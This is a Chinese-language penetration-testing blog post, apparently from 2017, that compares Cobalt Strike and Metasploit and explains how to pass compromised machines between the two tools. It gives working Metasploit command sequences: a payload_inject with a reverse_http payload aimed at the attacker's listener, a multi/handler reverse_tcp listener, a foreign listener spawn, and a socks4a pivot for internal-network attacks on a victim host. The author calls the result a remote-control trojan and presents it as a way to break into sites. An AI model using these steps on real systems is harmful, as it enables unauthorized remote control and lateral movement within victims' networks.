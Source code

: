 ```yaml
---
title: cs和msf的区别
date: 2017-09-12 14:27:24
tags:
	- 渗透
categories: 渗透
---
```



### 首先介绍一下Cobalt Strike
**Cobalt Strike是一款以metasploit为基础的GUI的框架式渗透工具，集成了端口转发、服务扫描，自动化溢出，多模式端口监听，win exe木马生成，win dll木马生成，java木马生成，office宏病毒生成，木马捆绑；钓鱼攻击包括：站点克隆，目标信息获取，java执行，浏览器自动攻击等等。**

这是以前的了，Cobalt Strike以前是一个MSF的GUI版本，现在翅膀硬了，2.5版本以后就已经脱离的msf的框架自己重写了，当然两兄弟间还互相提供接口支持（主要还是cobalt strike支持metasploit）。

### 在这里先给出我自己对最新Cobalt Strike与MetaSploit的看法。

Cobalt Strike与metasploit以前曾是GUI版本与命令行版本的关系，现在脱离自己重写后，个人觉得Cobalt Strike更偏重于稳定控制，而MetaSploit偏向于横向渗透。MetaSploit在渗透个人机方面作用比较小，而Cobalt Strike相对作用会更大一些。所以Cobalt Strike与metasploit现在是一种***互补***的关系。

---
#### 下文CS代表Cobalt Strike，MSF代表metasploit
列举一下cs与msf之间对比的优缺点吧，在CS的视角中来谈：

1. CS的socks4a服务比msf稳定太多了，被控机器从CS上线后，可以使用CS中的socks4a协议进行代理渗透，实战端口扫描开200线程不会挂，而msf中的route add或者是socks4a都做不到（这里数据感谢碧波大神），具体操作由于本人懒，这里先不写了。
2. CS没有横向EXP攻击：说白了CS只是个功能强大的远控马，它自从脱离了msf自己重写框架后，就放弃了exploit，专心做远控。所以使用cs前，你必须得获得目标机器的权限，再从上面运行cs的马。

本文便是基于2号缺点来展开，现在拿cs日站，前提就是你获取了目标的权限，然后运行cs的马上线，然后通过cs进行代理（或者其它扫描等），进行内网渗透，找出漏洞后继续利用其它工具进行exploit，exploit后再运行cs的马，这其中过程中，其实cs并没有很好地配合起来，并且好像也没有msf什么事情。如果我们要使用msf配合cs一起进行渗透的话，国内无文章对此进行介绍。经过我这两天的实验，发现msf对cs的支持还是很好的。

---
在使用msf和cs配合的渗透中，可能会有如下场景：
- msf获得了一个meterpreter的session，想把session传给cs
- msf未获得meterpreter的session，想直接让目标给cs上线
- cs获得了一个上线机器，想把这个机器丢给msf中的meterpreter获得一个session进行控制
- cs获得了一个上线机器，想把这个机器丢给msf中继续进行渗透

下面便来聊聊这4点是如何实际操作的。

本文网络环境如下：受害机器IP：192.168.31.14    MSF和cs在同一个IP下：192.168.31.29

---
#### 1. msf获得了一个meterpreter的session，想把session传给cs：

思路是使用msf中的inject payload来做

现在先假设已有一个meterpreter的session了，步骤如下：

在cs中新建监听

点击save创建成功后我们便有了一个reverse_http监听者，监听者33890端口，等待被控机连接。

此时切换到meterpreter中，输入下列命令：


```
background # 切换到后台

use exploit/windows/local/payload_inject

set payload windows/meterpreter/reverse_http # 这里有个坑，不能使用x64的payload，我开始试验了很久一直失败，发现是x64的原因，换成x86的payload就好了

set lhost 192.168.31.29 # cs的服务端IP

set lport 33890 # 监听者的监听端口

set session 1 # 这里是之前meterpreter的session编号

set disablepayloadhandler true # 关闭payload的监听，因为msf和cs在同一台机器，而且这里用cs监听而不是msf

exploit
```

此时机器便已成功从cs成功上线。

---
#### 2. msf未获得meterpreter的session，想直接让目标给cs上线
cs先开启监听者（见上文），此时msf的payload按照如下写法即可

```
set payload windows/meterpreter/reverse_http

set lhost 192.168.31.29 # cs的服务端IP

set lport 33890
```
就可以了，简单吧。这里其实就是payload选择reverse_http（注意32位的，不是64位的，这里大坑），然后监听的地址和端口写cs的监听者的信息就可以了，生成payload后怎么让目标执行就不在本文讨论范围了

---
#### 3. cs获得了一个上线机器，想把这个机器丢给msf中的meterpreter获得一个session进行控制
步骤如下

msf中：

```
use exploit/multi/handler 

set payload windows/meterpreter/reverse_tcp # 再次强调大坑：不要用x64的payload！

set lhost 192.168.31.29 

set lport 9999

exploit # 开启监听
```


cs中，对目标机器点击右键，spawn，新建一个监听者，payload选择foreign/reverse_tcp

最后choose它就可以了，如果meterpreter没有马上获得shell，不要着急，因为cs中默认sleep是1分钟，你可以先提前把sleep改短些，这样cs的反应会快些。

---

#### 4. cs获得了一个上线机器，想把这个机器丢给msf中继续进行渗透

这里其实只需要cs开一个socks给msf用就行了，具体操作如下：

对上线机器点右键，开启socks4a，然后会给你一个地址，在msf中设置proxy即可

